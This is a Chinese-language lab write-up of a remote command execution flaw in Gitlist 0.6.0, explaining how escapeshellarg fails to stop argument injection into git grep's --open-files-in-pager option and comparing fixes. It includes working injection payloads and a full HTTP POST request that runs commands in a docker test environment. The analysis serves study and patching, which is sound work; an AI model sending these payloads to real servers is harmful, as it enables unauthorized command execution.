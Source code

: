Gitlist 0.6.0 远程命令执行漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

Gitlist 0.6.0

三、复现过程
------------

### 环境搭建

执行如下命令启动漏洞环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080`将看到一个名为`example`的仓库。

### 漏洞分析

在用户对仓库中代码进行搜索的时候，gitlist将调用`git grep`命令：

    public function searchTree($query, $branch)
    {
        if (empty($query)) {
            return null;
        }

        $query = escapeshellarg($query);

        try {
            $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
        } catch (\RuntimeException $e) {
            return false;
        }

其中，`$query`是搜索的关键字，`$branch`是搜索的分支。

如果用户输入的`$query`的值是`--open-files-in-pager=id;`，将可以执行`id`命令：1.png导致这个漏洞的原因，有几点：

1.  开发者对于`escapeshellarg`函数的误解，造成参数注入

2.  `git grep`的参数`--open-files-in-pager`的值，将被直接执行

理论上，在经过`$query = escapeshellarg($query);`处理后，`$query`将变成一个由单引号包裹的字符串。但不出漏洞的前提是，这个字符串应该出现在"参数值"的位置，而不是出现在参数选项（option）中。

我们可以试一下如下命令：

    git grep -i --line-number -e '--open-files-in-pager=id;' master

2.png如上图，我将`$query`放在了`-e`参数的值的位置，此时它就仅仅是一个字符串而已，并不会被当成参数`--open-files-in-pager`。

这应该作为本漏洞的最佳修复方法，也是git官方对pattern可能是用户输入的情况的一种解决方案（以下说明来自man-page）：

> -e The next parameter is the pattern. This option has to be used for
> patterns starting with - and should be used in scripts passing user
> input to grep. Multiple patterns are combined by or.

当然，gitlist的开发者用了另一种修复方案：

    public function searchTree($query, $branch)
    {
        if (empty($query)) {
            return null;
        }
        $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
        $query = escapeshellarg($query);
        try {
            $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
        } catch (\RuntimeException $e) {
            return false;
        }

首先用`preg_replace`将`-`开头的非法字符移除，然后将`$query`放在`--`的后面。在命令行解析器中，`--`的意思是，此后的部分不会再包含参数选项（option）：

> A \-- signals the end of options and disables further option
> processing. Any arguments after the \-- are treated as filenames and
> arguments. An argument of - is equivalent to \--.
>
> If arguments remain after option processing, and neither the -c nor
> the -s option has been supplied, the first argument is assumed to be
> the name of a file containing shell commands. If bash is invoked in
> this fashion, \$0 is set to the name of the file, and the positional
> parameters are set to the remaining arguments. Bash reads and executes
> commands from this file, then exits. Bash\'s exit status is the exit
> status of the last command executed in the script. If no commands are
> executed, the exit status is 0. An attempt is first made to open the
> file in the current directory, and, if no file is found, then the
> shell searches the directories in PATH for the script.

举个简单的例子，如果我们需要查看一个文件名是`--name`的文件，我们就不能用`cat --name`来读取，也不能用`cat '--name'`，而必须要用`cat -- --name`。从这个例子也能看出，单引号并不是区分一个字符串是"参数值"或"选项"的标准。3.png所以官方这个修复方案也是可以接受的，只不过第一步的preg\_replace有点影响正常搜索功能。

### 漏洞复现

发送如下数据包：

    POST /example/tree/a/search HTTP/1.1
    Host: www.0-sec.org:8080
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Content-Length: 56

    query=--open-files-in-pager=touch /tmp/success;

其中，我们访问的是`/example/tree/a/search`，example是项目名称，需要是目标gitlist上一个已存在的项目；a在正常情况下应该是分支的名称，也就是`"grep -i --line-number {$query} $branch"`中的`$branch`，但因为我们的`$query`被当成了一个参数，所以`$branch`就应该被当做搜索的关键字。

如果没有搜索结果的话，我们的命令是不会被执行的，所以我用了"a"这个关键字，只是为了保证能搜出结果，你也可以换成其他的试试。

数据包发送后，用`docker-compose exec web bash`进入容器中，可见`/tmp/success`已成功创建：4.png

参考链接
--------

> https://vulhub.org/\#/environments/gitlist/0.6.0-rce/
